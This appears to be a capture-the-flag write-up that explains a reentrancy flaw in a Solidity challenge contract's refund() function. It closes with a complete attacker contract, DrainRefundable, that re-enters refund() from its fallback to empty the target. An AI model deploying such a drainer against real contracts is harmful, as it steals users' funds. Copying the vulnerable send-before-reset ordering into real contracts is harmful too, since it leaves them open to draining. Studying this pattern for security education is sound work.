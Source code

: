 ```
     */
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

}
```

As the isComplete() function says, we must somehow completely drain the initial balance with which the contract is deployed.

Analysing the contract we see that any balance received is processed in the fallback function and then added to our refund amount variable, which is mapped to our address (**`msg.sender`**).
Afterward we can either confirm the balance sent (**`completePurchase()`**) or get it back (**`refund()`**).

Examining the refund() function in particular we see there's a vulnerability we can exploit.
```
/** Refunds sent Ether
*/
function refund() public {
    require(refunds[msg.sender] > 0);
    uint256 amount = refunds[msg.sender];
    msg.sender.call.value(amount)("");
    refunds[msg.sender] = 0;
    emit Refund(msg.sender, amount);
}
```
There's a combination of `msg.sender.call.value(amount)("");` that does not take into account the gas limitation, and the reset of refunds that occurs only after the transaction has been processed. In this situation we can make a so-called Reentrancy Attack.

Let's create another smart contract that interacts with the deployed RefundablePurchase one (hereinafter referred to as 'main contract').
We'll need to write a function that receives balance, sends it to the main contract and then claim it back calling **`refund()`**.
To complete the exploit, only remains to create a fallback function that once again calls the **`refund()`** method.

The fallback function is going to be triggered when in the main contract the balance is sent back through `msg.sender.call.value(amount)("");`. This is where the reentrancy attack occurs because there's a loop that repeats until the balance is drained. One implementation could be as follows:
```
pragma solidity ^0.4.24;

import "./RefundablePurchase.sol";

contract DrainRefundable {
  RefundablePurchase public atAddress;
  
  constructor (address deploymentAddress) public {
    atAddress = RefundablePurchase(deploymentAddress);
  }
  
  function () public payable {
    if (address(atAddress).balance >= msg.value) {
      atAddress.refund();
    }
  }
  
  function drain() public payable {
    address(atAddress).call.value(msg.value)();
    atAddress.refund();
  }
}
```